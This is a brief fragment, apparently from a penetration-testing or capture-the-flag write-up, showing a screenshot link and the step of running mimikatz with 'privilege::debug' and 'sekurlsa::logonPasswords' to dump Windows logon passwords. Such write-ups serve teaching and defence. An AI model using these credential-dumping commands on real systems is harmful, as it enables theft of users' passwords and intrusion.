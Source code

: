 ![CEO-1](/assets/img/GRIMM-hax-combined/27.PNG)

 And then use mimikatz to get the passwords:

```
mimikatz# privilege::debug
mimikatz# sekurlsa::logonPasswords
```
